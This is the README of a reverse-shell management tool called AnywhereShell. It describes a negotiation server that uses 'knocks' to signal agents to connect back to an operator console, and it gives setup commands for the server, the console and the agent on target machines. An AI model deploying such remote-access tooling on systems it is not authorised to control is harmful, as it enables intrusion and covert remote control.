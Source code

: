 AnywhereShell
=============

Easily manage your reverse-shells by assigning "knocks" to each.

Protocol
=============
The negotiation server is used to register different "knocks" to agents. These knocks are used to identify individual agents. The agent is the assigned a knock that is registered to the negotiation server. When the management console is ready to connect to the agent it tells the negotiation server to set the knock status for that agent from "wait" to "connect." The agent then connects outbound to the management console.


                    > Negotiation-Server <
                   /                      \
                  /                        \
                agent -------------> management-console

Usage
=============
Currently only works on Linux!

Start the negotiation server on an external VPS. It must be public facing!

```
python negotiate.py
```
On your the computer you want to manage your agents from install xterminal and Java runtime environment 7 or above.

On the same computer move manager.jar and .knockrc to the same directory.
```
chmod +x manager.jar
*double-click to run* or java -jar manager.jar
```
On your router port-forward 9002 through to the host that has your management console running. This is neccessary so agents can connect back to you.

In the manager create knock "test."

On any computer you want to connect run the agent.
```
python agent -i $server_ip -k test
```
Simply click connect in the management-console using your knock: "test".
